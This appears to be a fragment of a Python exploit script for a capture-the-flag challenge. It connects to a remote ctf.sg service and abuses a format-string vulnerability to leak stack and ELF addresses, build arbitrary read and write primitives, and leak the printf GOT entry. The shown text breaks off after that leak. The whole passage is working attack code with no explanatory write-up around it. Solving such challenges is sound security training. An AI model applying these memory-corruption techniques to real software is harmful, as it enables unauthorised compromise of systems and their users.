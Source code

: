 ```python
        adjust_bouncer(p, index_base, index, offset=i)
        write_single(p, current_portion)

def arbitrary_read(p, index_base, address):
    write_index(p, index_base, 41, address)
    data = leak_data(p, 41)
    return data

def arbitrary_write(p, index_base, address, value):
    for i in range(0, 8, 2):
        write_index(p, index_base, 42, address + i)
        current_portion = (value >> (i * 8)) & 0xffff
        write_single(p, current_portion, target_index=42)

def main():
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)

    # Index 17 points to Index 38
    # Figure out address of Index 38
    index_17_value = leak_address(p, 17)
    index_38_address = index_17_value
    log.info("Got address of index 38: 0x%x" % index_38_address)

    # Figure out index 0
    index_base = index_38_address - (38 * 8)
    log.info("RSP (index 0): 0x%x" % index_base)

    # Figure out the halfed address to index 39
    index_26_value = leak_address(p, 26)
    log.info("Got address of index 26 (index 39): 0x%x" % index_26_value)

    index_39_value = leak_address(p, 39)
    log.info("Got value of index 39: 0x%x" % index_39_value)

    # Leak address of the format string just to verify.
    index_4_value = leak_address(p, 4)
    log.info("Got address of index 4 (format string): 0x%x" % index_4_value)

    #write_index(p, index_base, 41, index_4_value, 0)

    #log.info("Systems Test: 0x%x" % leak_address(p, 41))
    #log.info("Verify that format string shows up: %s" % leak_data(p, 41).decode("utf-8"))

    # Leak address of possible .text.
    index_7_value = leak_address(p, 7)
    log.info("Got address of index 7 (.text address): 0x%x" % index_7_value)
    elf_start = index_7_value & 0xffffffffffffe000
    log.info("ELF Start: 0x%x" % elf_start)

    def leak(address):
        return arbitrary_read(p, index_base, address)

    elf_header = leak(elf_start)
    log.info("ELF Start Bytes: %s" % elf_header)

    if b'\x7fELF\x02\x01\x01' != elf_header:
        log.info('Attempt failed.')
        return

    # Leak printf@got
    printf_got_offset = 0x3fb8
    printf_got = u64(leak(elf_start + printf_got_offset).ljust(8, b"\x00"))
    log.info("printf@GOT: 0x%x" % printf_got)
```
